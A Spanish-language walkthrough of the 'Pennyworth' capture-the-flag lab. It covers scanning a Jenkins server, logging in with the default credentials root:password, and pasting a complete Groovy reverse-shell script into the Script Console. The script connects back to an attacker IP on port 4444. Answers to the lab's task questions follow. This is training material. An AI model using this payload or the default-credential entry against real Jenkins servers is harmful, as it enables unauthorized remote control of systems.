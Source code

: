 # Pennyworth

### 1. 📝 **Introducción**

* **Nivel de Dificultad**: Muy fácil.
* **Tags:**&#x20;
  * **Common Applications (Aplicaciones Comunes):** Son herramientas ampliamente utilizadas en entornos empresariales e industriales, como servidores de integración continua, bases de datos y servicios web. Aunque son esenciales para la productividad, su configuración incorrecta o el uso de versiones desactualizadas pueden exponer vulnerabilidades críticas que los atacantes pueden explotar.
  * **Jenkins:** Es una herramienta de automatización de integración y entrega continua (CI/CD) utilizada para compilar, probar y desplegar aplicaciones. Debido a su uso frecuente en entornos de desarrollo, si no se configura adecuadamente o se protege con credenciales seguras, puede ser un objetivo para ataques como la ejecución remota de código (RCE) o la explotación de credenciales predeterminadas.
  * **Java:** Es un lenguaje de programación versátil y ampliamente utilizado en aplicaciones empresariales y web. Aunque es potente, su ejecución en entornos vulnerables puede llevar a ataques como la deserialización insegura, vulnerabilidades en bibliotecas desactualizadas y explotación de código malicioso dentro de aplicaciones Java en ejecución.
  * **Reconnaissance (Reconocimiento):** Es una fase crítica en las pruebas de penetración donde se recopila información sobre el sistema objetivo. Esto incluye la identificación de versiones de software, credenciales predeterminadas y servicios expuestos, lo que permite a los atacantes descubrir posibles puntos de entrada y debilidades en la infraestructura.
  * **Remote Code Execution (Ejecución Remota de Código - RCE):** Es una de las vulnerabilidades más peligrosas que permite a un atacante ejecutar comandos arbitrarios en un sistema objetivo de forma remota. En entornos con Jenkins y Java, una mala configuración o el uso de plugins inseguros pueden llevar a la explotación de RCE, comprometiendo completamente el servidor.
  * **Default Credentials (Credenciales Predeterminadas):** Son credenciales establecidas por defecto en software o hardware que, si no se cambian, pueden ser utilizadas por atacantes para obtener acceso no autorizado. Servicios como Jenkins a menudo tienen credenciales predeterminadas que, si no son modificadas, pueden permitir compromisos completos del sistema con privilegios administrativos.

### 2. 🛠️ **Entorno**

Nos descargamos nuestra VPN y nos conectamos.

```
sudo openvpn nombre_del_archivo.vpn
```

Iniciamos la máquina y verificamos la conexión.

```bash
ping -c 1 10.129.135.7
```

<figure><img src="../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Observamos que tenemos conexión y que es una máquina **Linux** ya que su **ttl=63**.

### 3. 🔍 **Reconocimiento**

A continuación, se realiza el comando:

```bash
nmap -sCV -Pn 10.129.135.7
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.&#x20;

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 4. 🚪 **Acceso Inicial**

Como podemos observar durante el escaneo, el puerto **8080** perteneciente al servicio **HTTP** está abierto. A continuación, se indagará más sobre estos servicios.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ponemos las credenciales por defecto **root**:**password**.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos ubicamos en Manage Jenkins > Script Console para subir una Reverse Shell.

```bash
String host="10.10.16.35";int port=4444;String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Le damos a run mientras nos ponemos en escucha.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 5. 🔑 **Captura de la Flag**

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 6. ❓Preguntas

**Tarea 1**

**¿Qué significa el acrónimo CVE?**\
📌 **Common Vulnerabilities and Exposures** (Vulnerabilidades y Exposiciones Comunes)

**Tarea 2**

**¿Qué significan las tres letras en CIA, refiriéndose a la tríada CIA en ciberseguridad?**\
📌 **Confidentiality, Integrity, Availability** (Confidencialidad, Integridad, Disponibilidad)

**Tarea 3**

**¿Qué versión del servicio se está ejecutando en el puerto 8080?**\
📌 **Jetty 9.4.39.v20210325**

**Tarea 4**

**¿Qué versión de Jenkins se está ejecutando en el objetivo?**\
📌 **2.289.1**

**Tarea 5**

**¿Qué tipo de script se acepta como entrada en la Consola de Scripts de Jenkins?**\
📌 **Groovy**

**Tarea 6**

**¿A qué sería igual la variable "String cmd" del fragmento de script Groovy si la VM de destino estuviera ejecutando Windows?**\
📌 **cmd.exe**

**Tarea 7**

**¿Qué otro comando, además de "ip a", podríamos usar para mostrar la información de nuestras interfaces de red en Linux?**\
📌 **ifconfig**

**Tarea 8**

**¿Qué opción debemos usar con netcat para que utilice el modo de transporte UDP?**\
📌 **-U**

**Tarea 9**

**¿Cuál es el término utilizado para describir hacer que un host objetivo inicie una conexión de regreso al host del atacante?**\
📌 **reverse shell**
